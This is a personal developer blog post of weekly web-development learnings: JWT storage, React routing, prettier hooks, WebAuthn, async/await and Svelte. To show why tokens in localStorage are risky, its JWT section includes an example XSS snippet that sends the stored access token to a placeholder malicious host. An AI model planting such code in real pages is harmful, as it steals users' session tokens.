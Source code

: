 ```yaml
---
title: Weekly Learnings 23rd of May
description: Weekly learnings for the 23rd of May 2019
updatedAt: May 23, 2019
img: https://images.unsplash.com/photo-1584697964400-2af6a2f6204c?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=634&q=60
alt: Weekly learnings
tags:
  - javascript
  - learnings
  - web-dev
author:
  name: David Yu
  bio: I love to code
  img: /content/davidthrone.jpg
---
```


## Storing JWT tokens in localStorage

Storing JWT tokens in `localStorage` is common but it is considered bad practice since it opens you up to exploitation if an XSS attack can be conducted. The token can be accessed if the attacker can execute malicious Javascript on your machine something like this.

```js
fetch('http://somemaliciousendpoint.com', {
  method: 'GET',
  headers: {
    Authorization: `Bearer ${localStorage.getItem('accessToken')}`
  }
})
```

## Dynamic navigation in React

React is like the Microsoft for frontend developers. It simply isn't developer friendly and the library `react-router-dom` which allows us to build SPAs is no exception. There isn't any clear definitive way to dynamically route with it. However the two ways I think are good.

If you have wrapped your app with `<BrowserRouter></BrowserRouter>` component then the `history` object will automatically be passed to all your pages (navigatable components) and you can call `props.history.push('/route-i-want-to-go-to)` or for other components you will have to wrap them in the `withRouter` higher order component to pass the `history` object as a `prop`

If you use `<HashRouter></HashRouter>` component then you can navigate with `location.hash = 'route-i-want-to-go-to`

## A better way to format your project

```bash
yarn add prettier --dev --exact
yarn add pretty-quick husky --dev
```

Add this to your package.json

```json[package.json]
{
  "husky": {
    "hooks": {
      "pre-commit": "pretty-quick --staged"
    }
  }
}
```

Now prettier will format only changed files when you `git-commit`

## The future of authentication

It has always been a pain point for developers to integrate authentication in their apps. Not only that but it has security issues e.g. password reuse and its annoying to enter usernames/passwords to authenticate. Introducing two very exciting developments

- **One tap sign on** by Google signs the user in through one click. Presumably the user still needs to maintain a Google account and they are already authed with their browser. There are a lot of requirements for this one but thus far it provides the best user and developer experience as an auth strategy.

- **webauthn** This one is the most exciting and even if this isn't the exact spec that gets widely used the idea should be what we are heading towards in the future. The idea is that we use biometrics like fingerprints and facial recognition to login to a website. We already can do this for our apps but now we are going to do it for websites.

## Async/await

This syntax

```js
try {
  const response = await someAsyncCallThatReturnsAPromise()
  const response1 = await someAsyncCallThatReturnsAPromise1()
  const response2 = await someAsyncCallThatReturnsAPromise2()
} catch (err) {
  console.error("Shouldn't have failed")
}
```

has become the new standard for writing async applications due it is synchronous like nature that makes it easier for developers to reason with. However one annoying thing that we would have to do is wrap the calls in an async function.

```js{1,7}
;(async () => {
  try {
    const response = await someAsyncCallThatReturnsAPromise()
    const response1 = await someAsyncCallThatReturnsAPromise1()
    const response2 = await someAsyncCallThatReturnsAPromise2()
  } catch (err) {
    console.error("Shouldn't have failed")
  }
})()
```

In order for that code to compile we had to wrap that in an IIFE with the async tag. This is because async/await functions always return a promise and to properly call them we also have to await them

```js{1}
await (async () => {
  try {
    const response = await someAsyncCallThatReturnsAPromise()
    const response1 = await someAsyncCallThatReturnsAPromise1()
    const response2 = await someAsyncCallThatReturnsAPromise2()
  } catch (err) {
    console.error("Shouldn't have failed")
  }
})()
```

Now the parent function has to do something similar. I like this approach because we are explicit about things. Although forgetting to await has caused a lot of bugs modern IDEs should tell you if a function returns a promise or not.

## Svelte

Svelte looks really exciting and I look forward to developing a small real world application with it or build on top of their example. It reminds me of Ruby. Although it appears a lot of magic is going on and it abstracts away a lot of things it improves developer experience but in the past these sorts of languages have never gained momentum, e.g. pug and CoffeeScript. HTML, JS and CSS has seem to always win out in the end which is quite ominous for svelte. I think at the end the big tech companies are the ones that sway the industry if they don't adopt svelte then it won't ever reach critical mass. Therefore it is unlikely it will ever be able to compete with React in terms of industry adoption. Even Vue with its massive popularity still hasn't been widely adopted in the industry except for China.

## React + Apollo + Prisma

Still dislike React in terms of developer experience. I just don't have time and energy to detail for the low level things like updating the dam cache. Prisma is cool gives us free CRUD, pagination and filtering but I can see it struggling when we start to build real world applications due to its unopinionated nature like Express. This is fine for large companies with massive dev teams like I have said before but for the majority of companies and dev teams this wouldn't work for them.

## Misc stuff

- Insomnia is a nice replacement for Postman
- The difference between function `helloworld() {}` and `helloworld = () => {}` is that the first one will automatically hoist the function up so you can use it anywhere
- Ngrok can allow your local dev server to be accessible in the cloud but it is very slow
- Chrome has a lazy attribute for images now e.g. `<img loading="lazy">`
- We should use `Sets` more because they are faster and you can access them by value
